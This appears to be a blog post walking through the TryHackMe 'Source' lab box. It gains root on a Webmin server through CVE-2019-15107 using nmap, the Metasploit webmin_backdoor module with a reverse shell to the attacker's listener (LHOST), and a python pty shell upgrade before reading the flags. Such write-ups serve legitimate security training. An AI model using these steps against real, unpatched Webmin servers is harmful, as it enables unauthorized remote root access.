 ```yaml
---
layout: post
title: "Source - TryHackMe"
date: 2020-07-11
ctf: true
excerpt: "Walkthrough for Source on TryHackme"
tags: [Source, TryHackMe, Webmin, CVE-2019-15107]
comments: false
---
```




This is an easy box on [TryHackMe](https://tryhackme.com) based on a recent Webmin exploit. Here are the steps to follow to own this box.

First, let's enumerate the box with nmap with **nmap -p- -vv -T4 [machine ip]**.

This shows 2 ports open, 22 (ssh) and 10000 (typically used for webmin)

![Source nmap](/assets/img/Source1.png)

Let's pull up the site on port 10000 with **https://[machine ip]:10000**. This site is using a self signed certificate, so accept the certificate and you will be presented with a webmin login page. A quick Google search shows you that one of the latest CVEs for Webmin was CVE-2019-15107, which allows for remote code execution without authentication. This is because of a bug in a parameter in password_change.cgi. Let's launch Metasploit with **msfconsole** and run **search webmin 1.920**. One of the results will include an exploit we can use.

![Source Metasploit](/assets/img/Source2.png)

Let's run **use exploit/linux/http/webmin_backdoor** followed by **show options**. You should see a screen similar to the following:

![Source exploit options](/assets/img/Source3.png)

Let's run **SET RHOSTS [machine ip]**, **SET SSL true**, **SET LHOST [your VPN IP] **and then once set, use **run** to attempt the exploit.

![Source run exploit](/assets/img/Source4.png)

You should get a shell within a few moments.

![Source root shell](/assets/img/Source5.png)

Run **whoami** and you will see you have root access.

![Source whoami](/assets/img/Source6.png)

Let's upgrade our shell with **python -c 'import pty; pty.spawn("/bin/sh")'**. Now, let's navigate to the main user home directory with **cd /home** and run **ls** to list the user directories on this server. You will see that there is a user name of **dark** here. 

![Source enumerate user home](/assets/img/Source7.png)

Let's go into his directory with **cd dark** and run **ls -al** to list directory contents. You will see a **user.txt** file, let's run **cat user.txt** and you now have the user flag.

![Source user flag](/assets/img/Source8.png)

Next, let's navigate to /root with **cd /root** and run **ls**. You will see a file named root.txt. Let's view it's contents with **cat root.txt**

![Source root flag](/assets/img/Source9.png)

